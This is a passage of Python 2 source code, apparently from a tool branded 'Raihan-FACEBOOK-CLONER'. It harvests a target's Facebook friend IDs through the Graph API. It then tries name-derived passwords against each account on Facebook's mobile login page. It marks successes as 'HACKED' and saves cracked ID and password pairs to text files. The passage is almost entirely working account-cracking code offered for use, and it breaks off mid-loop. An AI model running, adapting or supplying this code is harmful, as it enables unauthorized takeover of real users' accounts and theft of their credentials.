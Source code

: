         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif select == '0':
        menu()
    else:
        print ''
        print '\tSELECT VALID OPTION'
        print ''
        crack()
    print '\x1b[1;37m[=] TOTAL IDS :\x1b[1;92m ' + str(len(id))
    print '\x1b[1;37m[=] THE PROCESS HAS STARTED'
    print '\x1b[1;37m======================================================='
    print '\x1b[1;32m     Raihan-FACEBOOK-CLONER'
    print '\x1b[1;37m======================================================='
    
    def main(arg):
        user = arg
        (uid, name) = user.split('|')
        sharagent = random.choice(sua)
        session = requests.Session()
        session.headers.update({
            'Host': 'mbasic.facebook.com',
            'cache-control': 'max-age=0',
            'upgrade-insecure-requests': '1',
            'user-agent': sharagent,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'accept-encoding': 'gzip, deflate',
            'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7' })
        host = 'https://mbasic.facebook.com'
        
        try:
            ps = name
            data = session.post('https://mbasic.facebook.com/login.php', data = {
                'email': uid,
                'pass': ps,
                'login': 'submit' })
            sp = data.content
            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                print '\x1b[1;92m[Raihan-HACKED] ' + uid + ' | ' + ps + '\x1b[0;97m'
                ok = open('OK.txt', 'a')
                ok.write(uid + '|' + ps + '\n')
                ok.close()
                oks.append(uid + ps)
            elif 'checkpoint' in sp:
                print '\x1b[1;91m[Raihan-CHECKPOINT] ' + uid + ' | ' + ps + '\x1b[0;97m'
                cp = open('CP.txt', 'a')
                cp.write(uid + '|' + ps + '\n')
                cp.close()
                cps.append(uid + ps)
            else:
                ps2 = name.lower().split(' ')[0] + name.lower().split(' ')[1]
                data = session.post('https://mbasic.facebook.com/login.php', data = {
                    'email': uid,
                    'pass': ps2,
                    'login': 'submit' })
                sp = data.content
                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                    print '\x1b[1;92m[Raihan-HACKED] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    ok = open('OK.txt', 'a')